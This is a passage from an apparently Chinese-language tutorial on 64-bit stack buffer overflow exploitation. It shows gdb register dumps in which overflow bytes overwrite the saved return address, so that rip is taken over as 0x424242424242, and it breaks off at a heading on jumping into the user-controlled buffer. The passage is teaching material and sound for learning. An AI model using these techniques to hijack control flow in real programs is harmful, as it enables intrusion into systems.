 ```
r11     0x246 r12 0x400520 4195616 
r13     0x7fffffffde90 140737488346768 
r14     0x0     0 
r15     0x0     0 
rip     0x400686 0x400686 <main+121>  
eflags  0x246 [ PF ZF IF ] 
cs      0x33    51 
ss      0x2b    43 
ds      0x0     0 
es      0x0     0 
fs      0x0     0 
gs      0x0     0 

```

rsp 指向 0x7fffffffddb8 而 0x7fffffffddb8 的内容就是 0x0000424242424242。看来一切正常是时候执行 ret 指令了。

```
(gdb) stepi 
Cannot access memory at address 0x424242424242 
Cannot access memory at address 0x424242424242 
(gdb) i r 
rax     0x0     0 
rbx     0x0     0 
rcx     0xffffffffffffffff  -1 
rdx     0x7ffff7dd59e0 140737351866848 
rsi     0x7ffff7ff7000 140737354100736 
rdi     0x1     1 
rbp     0x4141414141414141   0x4141414141414141 
rsp     0x7fffffffddc0  0x7fffffffddc0 
r8      0x4141414141414141 4702111234474983745 
r9      0x4141414141414141 4702111234474983745 
r10     0x4141414141414141 4702111234474983745 
r11     0x246   582 
r12     0x400520 4195616 
r13     0x7fffffffde90 140737488346768 
r14     0x0     0 
r15     0x0     0 
rip     0x424242424242  0x424242424242 
eflags  0x246 [ PF ZF IF ] 
cs      0x33    51 
ss      0x2b    43 
ds      0x0     0 
es      0x0     0 
fs      0x0     0 
gs      0x0     0 

```

我们最终控制了 rip

## 0x05 跳入用户控制的缓冲区
